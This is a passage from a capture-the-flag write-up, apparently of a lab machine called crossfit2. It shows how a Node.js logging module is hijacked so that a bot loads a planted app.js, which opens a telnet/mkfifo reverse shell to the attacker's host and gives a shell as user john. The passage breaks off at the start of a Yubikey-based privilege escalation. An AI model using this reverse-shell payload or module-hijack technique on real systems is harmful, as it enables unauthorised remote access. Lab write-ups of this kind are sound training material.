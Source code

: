 This creates a websocket to connect to the gym bot and checks its availability, logs the information of connection to /tmp/chatbot.log

```bash
12 -rw-r--r--   1 john     wheel  4222 Jul  8 18:49 chatbot.log
```

The user is owned by `john`.

We do not have access to read the john’s home folder.

I will create a JS file to create a reverse shell when the statbot.js triggers.

```bash
const { exec } = require("child_process");
child = exec("(TF=$(mktemp -u); mkfifo $TF && telnet 10.10.X.X 5454 0<$TF | /bin/sh 1>$TF) &",
    function (error, stdout, stderr) {
        console.log('STDOUT: ' + stdout);
        console.log('STDERR: ' + stderr);
    }
);
```

Let’s set up everything. First, find the js module that logs to files.

```bash
find / -name log-to-file 2>/dev/null
/usr/local/lib/node_modules/log-to-file
```

And we open a port 80 to hold our app.js, so we can copy it inside the machine.

```bash
crossfit2$ cd /opt/sysadmin
crossfit2$ mkdir node_modules
crossfit2$ cp -r /usr/local/lib/node_modules/log-to-file/ node_modules/                                                                                                                                                               
crossfit2$ curl -s --output node_modules/log-to-file/app.js http://10.10.X.X/app.js 
```

Aaand we get a shell as john.

```bash
❯ nc -lvnp 4444       
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.232] 42003
id
uid=1005(john) gid=1005(john) groups=1005(john), 20(staff), 1003(sysadmins)
```

Stabilizing the shell here caused it to crash so I will need to be using this poor shell, at least I can create a script to use bash properly.

# Privilege Escalation

After enumerating, the user `john` is able to run the /usr/local/bin/log.
We can’t read the /root directory but we can read /var/db, where there is a yubikey directory, with files to create a OTP.
This is very important taking into consideration that in the /etc/login.conf we can login using Yubikey.
